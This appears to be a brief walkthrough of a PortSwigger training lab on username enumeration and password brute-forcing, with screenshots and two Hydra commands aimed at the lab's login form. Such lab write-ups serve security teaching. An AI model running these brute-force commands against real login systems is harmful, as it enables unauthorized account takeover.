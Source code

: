 
Desc:This lab is vulnerable to username enumeration and password brute-force attacks. It has an account with a predictable username and password, which can be found in the following wordlists:
- https://portswigger.net/web-security/authentication/auth-lab-usernames
- https://portswigger.net/web-security/authentication/auth-lab-passwords
To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.

Usernames enumeration:
![image](https://github.com/user-attachments/assets/a109445e-c799-43db-b5d5-7c33fd464b69)

For username `access` we have different response:
![image](https://github.com/user-attachments/assets/8bdf0bc7-0076-4283-bcc0-9424426c25ff)


HYDRA try:
For username:
`hydra -L ./login-list.txt -p test -S -s 443 -f 0a6300400322b8da80c8a35e00000049.web-security-academy.net http-post-form "/login:username=^USER^&password=^PASS^:Invalid username"`
For password:
`hydra -l access -P ./password-list.txt -t 64 -S -s 443 -f 0a6300400322b8da80c8a35e00000049.web-security-academy.net http-post-form "/login:username=^USER^&password=^PASS^:Incorrect password"`




